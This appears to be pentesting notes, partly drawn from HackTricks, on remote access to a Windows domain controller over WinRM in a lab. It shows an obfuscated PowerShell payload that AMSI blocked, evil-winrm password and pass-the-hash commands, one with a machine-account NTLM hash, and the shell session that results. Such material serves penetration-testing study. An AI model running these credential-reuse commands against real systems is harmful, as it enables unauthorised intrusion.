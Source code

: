 ```
SMB         192.168.56.128  445    DC01             At line:1 char:1
SMB         192.168.56.128  445    DC01             + .( $eNv:pubLiC[13]+$Env:Public[5]+'X') ([StRinG]::jOIN('' , ('91i78>1 ...
SMB         192.168.56.128  445    DC01             + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SMB         192.168.56.128  445    DC01             + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
SMB         192.168.56.128  445    DC01             + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[5985,5986 - Pentesting WinRM](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm)

[**#Using evil-winrm**]

Read **documentation** on its github: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

To use evil-winrm to connect to an **IPv6 address** create an entry inside _**/etc/hosts**_ setting a **domain name** to the IPv6 address and connect to that domain.

Pass the hash with evil-winrm:
```
evil-winrm -u <username> -H <Hash> -i <IP>
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`evil-winrm -i 192.168.56.128 -u 'FileServer$' -H 'e41da7e79a4c76dbd9cf79d1cb325559'`:
```
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint ←
*Evil-WinRM* PS C:\Users\FileServer$\Documents> 
```
